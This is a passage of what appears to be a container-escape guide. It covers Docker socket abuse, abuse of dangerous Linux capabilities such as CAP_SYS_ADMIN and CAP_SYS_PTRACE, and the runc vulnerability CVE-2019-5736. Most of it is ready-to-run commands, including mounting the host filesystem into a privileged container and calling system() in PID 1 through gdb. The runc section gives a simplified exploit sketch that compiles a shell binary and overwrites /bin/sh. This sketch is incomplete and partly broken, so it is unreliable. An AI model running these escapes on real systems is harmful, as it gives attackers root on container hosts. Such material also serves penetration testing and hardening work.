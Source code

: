 **2. Docker Socket Abuse**

If Docker socket is mounted:

```bash
# Check for Docker socket
ls -la /var/run/docker.sock

# List containers
docker ps

# Create privileged container with host filesystem access
docker run -it --privileged --pid=host --net=host --ipc=host -v /:/host ubuntu:latest chroot /host bash
```

**3. Capabilities-Based Escape**

Check and abuse dangerous capabilities:

```bash
# Check current capabilities
grep Cap /proc/self/status
capsh --print

# If CAP_SYS_ADMIN is available
unshare -rm sh -c "mkdir l u w m && mount -t overlay overlay -o lowerdir=l,upperdir=u,workdir=w m && touch m/poc && ls l u w m"

# If CAP_SYS_PTRACE is available
gdb -p 1
(gdb) call system("id")
```

### Known Container Runtime Vulnerabilities

**1. CVE-2019-5736 (runc Vulnerability)**

This critical vulnerability allows container escape:

```bash
# Exploit conditions check
ls -la /proc/self/exe

# Create malicious binary (simplified example)
cat > /tmp/exploit.c << 'EOF'
#include <stdio.h>
#include <unistd.h>
int main() {
    execve("/bin/sh", NULL, NULL);
    return 0;
}
EOF

gcc -o /tmp/exploit /tmp/exploit.c
chmod +x /tmp/exploit

# Monitor for runc process and overwrite
echo '#!/proc/self/exe' > /bin/sh
# Wait for exec and exploit...
```
